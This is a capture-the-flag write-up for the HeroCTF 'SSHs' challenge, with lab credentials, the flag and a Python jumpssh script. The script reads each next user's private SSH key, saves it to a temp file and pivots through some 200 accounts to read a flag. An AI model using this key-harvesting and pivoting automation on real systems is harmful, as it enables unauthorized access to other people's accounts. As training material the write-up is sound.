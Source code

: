 # SSHs

### Category

Prog

### Description

Every user can read the private rsa key of the next user. You just have to grab it, and ssh as the next. But... there are 250 ?!?<br>
Let's automate it ! (The last user has a *flag.txt* at the root of his home directory)

The base credentials are:
```
user1:password123
```

```
Host : xxxx.heroctf.fr
Port : xxxx
```

Format : **Hero{flag}**<br>
Author : **Log_s**

### Write up

This script solves the challenge. One mistake to not make here, is to chain the SSH sessions all together. The result would be a very slow response time (I mean VERY slow).
So you'll notice every remote ssh connection is made from the gateway session (user1) that is available from the outside.
```python
from jumpssh import SSHSession
from os import remove

host = '127.0.0.1'
port = 22

#Connect to machine
print("[*] Connect to gateway ssh account\n")
gateway = SSHSession(host, "user1", port=22, password="user1")

# Keep track of sessions
active_session = gateway
for i in range(2, 201):
    # Read Key
    key = active_session.get_cmd_output("./getSSHKey") # 4096 -> key size ; 36*2 -> header+footer size

    # Write Key
    open("key.tmp", "w").write(key)

    # Get next session and save it
    active_session.close()
    active_session = gateway.get_remote_session("127.0.0.1", username=f"user{i}", private_key_file="key.tmp")

    if i%50==0:
        print(f"[*] User {i}/200")

# Remove temporary file
remove("key.tmp")

# Read and print flag
print("\n[+] Flag : ", active_session.get_cmd_output("cat flag.txt"))
active_session.close()
```

For a simple ssh connections, I recommend using pwntools, that offers a few very usefull services. But it sadly doesn't allow chaining ssh sessions (for pivoting for exemple). You'll have to use other libraries (like here jumpssh, that is a kind of wrapper for Paramiko), sockets, or setup port forwarding.

### Flag

```Hero{Th47_w3RE_4_l0t_Of_uS3rS}```